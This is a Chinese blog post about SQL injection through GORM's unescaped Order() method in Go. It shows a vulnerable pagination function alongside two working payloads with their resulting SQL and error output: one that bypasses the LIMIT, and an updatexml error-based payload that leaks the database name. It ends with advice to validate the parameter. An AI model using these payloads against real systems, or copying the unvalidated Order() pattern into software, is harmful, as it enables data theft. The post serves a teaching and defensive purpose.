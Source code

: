```yaml
---
title: gorm OrderBy注入
date: "2022-03-15 15:40:41"
updated: "2022-03-15 15:53:18"
url: https://p00q.cn/?p=547
categories:
    - 数据库
tags:
    - Go
    - MySQL
    - gorm
    - sql
summary: |-
    在上述代码中，存在一个安全隐患：`order` 参数没有经过校验，可能导致 SQL 注入攻击。尽管 GORM 已经有一定的防注入措施，但仍存在一些方法没有转义。在不进行参数校验的情况下，攻击者可以构造恶意的 `order` 参数来执行危险的 SQL 查询。

    一个示例是通过构造 `order` 参数来爆出符合条件的所有数据。攻击者可以构造 `order` 参数为 `id;--`，从而将原本的 SQL 查询改为查询所有数据的语句。

    另一个示例是通过构造 `order` 参数来执行 `updatexml` 函数，从而进行更多的信息泄露。攻击者可以构造 `order` 参数为 `updatexml(1,if(1=2,1,concat(0x7e,database(),0x7e)),1)`，从而执行该函数并通过错误回显获取数据库的信息。

    为了避免这些安全隐患，建议在使用前对参数进行校验。可以使用合适的正则表达式或者白名单来限制 `order` 参数的值，确保其只包含被允许的字符和语法。此外，还可以对输入的参数进行转义或者使用参数绑定的方式来构建 SQL 查询，防止注入攻击的发生。

    通过对参数进行校验和处理，可以有效提升系统的安全性，防止 SQL 注入攻击。
id: "547"
---
```


# 环境代码
有时为了方便前端排序可能会将`order`作为参数传入，这是不安全的。

虽然gorm有防注入但还是有些方法是没有转义的。
[gorm不安全的方法](https://gorm.io/zh_CN/docs/security.html)

```go
func TestGetList(pageNum, pageSize int, order string) []modle.Test {
	if pageSize == 0 {
		pageSize = 20
	}
	if pageNum == 0 {
		pageNum = 1
	}
	begin := db.GetDB()
	tests := make([]modle.Test, 0)
	err := begin.Model(&modle.Test{}).Order(order).Offset((pageNum - 1) * pageSize).Limit(pageSize).Find(&tests).Error
	if err != nil {
		log.Println(err.Error())
	}

	return tests
}

```

## 爆出符合条件的所有数据
请求：
```
{
    "order":"id;-- "
}
```
执行sql 
```
SELECT * FROM `test` ORDER BY id;--  LIMIT 20
```
返回：符合条件的所有数据

## updatexml
如果有报错回显的话还可能造成更多泄露
请求：
```
{
    "order":"updatexml(1,if(1=2,1,concat(0x7e,database(),0x7e)),1)"
}
```
日志：
```
Error 1105: XPATH syntax error: '~test~'
```
# 建议
在使用前校验参数
